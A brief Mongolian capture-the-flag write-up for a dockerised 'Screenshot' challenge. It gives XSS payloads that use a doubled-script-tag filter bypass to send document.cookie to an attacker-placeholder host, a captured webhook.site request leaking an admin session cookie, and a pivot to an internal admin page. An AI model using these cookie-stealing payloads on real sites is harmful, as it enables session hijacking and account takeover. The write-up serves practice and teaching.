 ## Асаах

`docker-compose up -d`

## Screenshot-1

`http://ipaddress/1337:/feed.php`
XSS өртөмтгий байх амархан шалгаж болно. 

```
<sscriptcript> new Image().src="http://<ATTACKERIP>:<port>/?"+document.cookie; </sscriptcript>
```

эсвэл
```
<sscriptcript>document.write('<img src="http://ATTACKERIP/?'+document.cookie+'" />')</sscriptcript>
```

ирсэн хүсэлтийг шалгавал


```
request: https://webhook.site/ef1e3938-3e7a-49e6-bac0-09cb98fbf017?c=PHPSESSID%3DHZ%7Bye%40h_admin_cook1e_and_fl%40g_0f_ScreenShot_1%7D
parameter:   	PHPSESSID=HZ{ye@h_admin_cook1e_and_fl@g_0f_ScreenShot_1}

Headers
connection: close
host: 	webhook.site
accept-language: 	en,*
accept-encoding: 	gzip, deflate
accept: 	*/*
user-agent: 	Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
referer:	http://screen/god-wisper.php
content-length: 	
content-type:	
```
flag
>HZ{ye@h_admin_cook1e_and_fl@g_0f_ScreenShot_1}

## Screenshot-2
admin.php рүү хандвал Зөвхөн дотоод IP хандана уу гэсэн байх бөгөөд. XSS ээр авсан хүсэлтийг дахиж харвал. 

**`referer:	http://screen/god-wisper.php`** гэж байгаа

`http://screen/` гэдэг нь docker ийн дотоод хаяг гэж харж болохоор байна. иймд `http://screen/admin.php` -н screenshot -г харвал 

flag гарч ирнэ. 

![9d7c1f6f904b57a79b892e.jpg](9d7c1f6f904b57a79b892e.jpg)
